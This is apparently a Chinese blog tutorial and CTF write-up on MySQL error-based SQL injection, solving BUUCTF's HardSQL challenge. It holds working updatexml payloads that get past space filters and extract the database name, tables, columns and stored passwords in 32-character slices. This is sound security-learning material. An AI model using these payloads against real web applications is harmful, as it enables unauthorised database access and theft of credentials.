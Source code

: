 ```yaml
---
title: 报错注入
date: '2022/1/23 23:15:01'
categories:
  - - web安全
    - 注入
    - SQL
description: sql注入--报错注入
abbrlink: 1189e02e
tags:
---
```


# 报错注入

当加入```'```发现有开启报错，但是union等被过滤时候，考虑报错注入

## 常用函数
```sql
updatexml()，extractvalue()，floor() ,exp() 
```

### 报错原理简述
> （1）updatexml使用时，当xpath_string格式出现错误，mysql则会爆出xpath语法错误
例如： ```updatexml(1,concat(0x7e,version(),0x7e),1)```，由于0x7e是~，利用concat()函数，构造不符合xpath语法格式的字符串，从而产生报错。

> ```concat()```被过滤时候，可以使用```make_set()```函数
```sql
1 and updatexml(1,make_set(3,'~', (user()) ),1)#
```

## 例题

> 来自buuctf上面的[极客大挑战 2019]HardSQL

这题有开启报错信息，利用```()```绕过空格的过滤，利用```updatexml()```函数进行报错注入

查询版本号
```sql
1'or(updatexml(1,concat(0x7e,version(),0x7e),1))%23
```
查询数据库名
```sql
1'or(updatexml(1,concat(0x7e,database(),0x7e),1))%23
```
查询表名
```sql
1'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))%23
```
查询字段名
```sql
1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))%23
```
查询数据
```sql
1'or(updatexml(1,concat(0x7e,(select(group_concat('~',password))from(H4rDsq1)),0x7e),1))%23
```

**注意：因为extractvalue和updatexml只显示32位字符，使用left和right配合进行查询**
```sql
1'or(updatexml(1,concat(0x7e,(select(group_concat((right(left(password,30),30))))from(H4rDsq1)),0x7e),1))%23
```
```sql
1'or(updatexml(1,concat(0x7e,(select(group_concat((right(left(password,50),30))))from(H4rDsq1)),0x7e),1))%23
```

参考来自：[https://blog.csdn.net/weixin_43818995/article/details/104338002](https://blog.csdn.net/weixin_43818995/article/details/104338002)




